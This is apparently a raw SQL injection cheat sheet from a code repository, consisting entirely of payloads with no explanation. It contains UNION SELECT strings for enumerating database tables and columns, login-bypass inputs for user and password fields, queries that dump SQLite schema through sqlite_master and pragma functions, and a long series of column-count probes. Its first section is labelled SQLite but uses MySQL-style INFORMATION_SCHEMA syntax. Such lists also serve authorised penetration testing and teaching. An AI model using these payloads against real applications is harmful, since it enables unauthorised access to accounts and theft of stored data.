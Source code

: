 # For SQLi (SQLite)
#### 0+UNION+SELECT+NULL,+COLUMN_NAME,+NULL,+NULL+FROM+INFORMATION_SCHEMA.COLUMNS
#### 0+UNION+SELECT+NULL,+group_concat(COLUMN_NAME),+NULL,+NULL+FROM+INFORMATION_SCHEMA.COLUMNS
#### 0+UNION+SELECT+2,3,table_name,4+from+INFORMATION_SCHEMA.tables
#### 0+UNION+SELECT+2,group_concat(table_name),3,4+from+INFORMATION_SCHEMA.TABLES
#### 0+UNION+SELECT+2,3,group_concat(table_name),4+from+INFORMATION_SCHEMA.tables+where+table_SCHEMA=database()
..............................................................................
# For SQLi (SQLite)

( user=admin' ;&pass=a )

( user=admin' --&pass=a )

( user=admin' /*&pass=a )

( adm'||'in &Pass=' glob '* )

( user=ad'||'min'%00&pass=a )

( user=1' OR '1'='1%00&pass=a )

( user=admin' OR '1'='1';&pass=a )

( user=admin' OR '1'='1'--&pass=a )

( user=admin' OR '1'='1'/*&pass=a )

( user=admin&pass=a'/**/IS/**/NOT/**/'b )

( user='admi'||CHAR(' AND pass='-0+110)||'' )

( user=adm' ||   trim('in', Password: )  || '&pass=a )

( user=admin' union select * from users where '1&pass=a )

( user=' union select * from users where username in("admin")/*&pass=a )

(  user=mali'/**/union/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;&pass=a )

( User='/**/union/**/select*from/**/users/**/where/**/username/**/in(char(97,100,109,105,110))/*&pass=a )

.....................................................................................
# For SQLi (SQLite)

'union select sqlite_version() -- -

123' UNION SELECT 1, sqlite_version(), 3;--

' UNION SELECT table_name FROM sqlite_master --

123' UNION SELECT name, sql, null from sqlite_master;--

' UNION SELECT sql FROM sqlite_master WHERE type='table' AND name='your_table' --

'UNION SELECT tbl_name FROM sqlite_master WHERE TYPE='table' AND tbl_name NOT LIKE'sqlite_%'

' UNION SELECT null, sql FROM sqlite_master WHERE type='view' --

' UNION SELECT null, sql FROM sqlite_master WHERE type='trigger' --

' UNION SELECT null, sql FROM sqlite_master WHERE type='index' --

' UNION SELECT null, sql FROM sqlite_master WHERE type='table' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' --

' UNION SELECT null, sql FROM sqlite_master WHERE type='index' AND sql NOT NULL --

' UNION SELECT null, sql FROM sqlite_master WHERE type='trigger' AND sql NOT NULL --

' UNION SELECT null, sql FROM sqlite_master WHERE type='view' AND sql NOT NULL --

' UNION SELECT null, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL --

' UNION SELECT null, name FROM pragma_function_list() WHERE name NOT LIKE 'sqlite_%' --

' UNION SELECT null, name FROM pragma_module_list() WHERE name NOT LIKE 'sqlite_%' --

' UNION SELECT group_concat(name) FROM sqlite_master WHERE type='table' --

' UNION SELECT group_concat(sql) FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name' --

' UNION SELECT null, table_name FROM pragma_table_info('sqlite_master') --

' UNION SELECT null, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name' --
.....................................................................................................................

' UNION SELECT NULL --

' UNION SELECT 1 --

' UNION SELECT 'a' --

' UNION SELECT 'a', 'b' --

' UNION SELECT 'a', 'b', 'c' --

' UNION SELECT 'a', 'b', 'c', 'd' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '0' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '0', '1' --

